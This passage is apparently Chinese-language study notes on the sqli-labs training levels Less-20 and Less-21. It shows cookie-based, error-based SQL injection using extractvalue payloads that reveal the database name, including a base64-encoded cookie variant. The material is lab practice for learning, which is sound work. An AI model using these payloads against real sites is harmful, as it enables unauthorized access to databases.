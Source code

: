 ' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '1'='1
```





### 靶场less20

简单用admin登录测试：

![image-20220114225157771](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114225157771.png)

cookie 可能导致平行越权



### cookie

还是用`\`测试：

![image-20220114225455740](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114225455740.png)

得知单引号闭合。

注意cookie后面有`;`，因此我们操作需要在分号前操作。



```
' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #
```



### 靶场less21

base64加密过的cookie

利用神器解密：

![image-20220114225838024](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114225838024.png)



因此进行的操作需要进行base64（encode）加密再提交：



![image-20220114230000046](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220114230000046.png)

```
admin' and extractvalue(1,concat(0x7e,(select database()),0x7e)) #

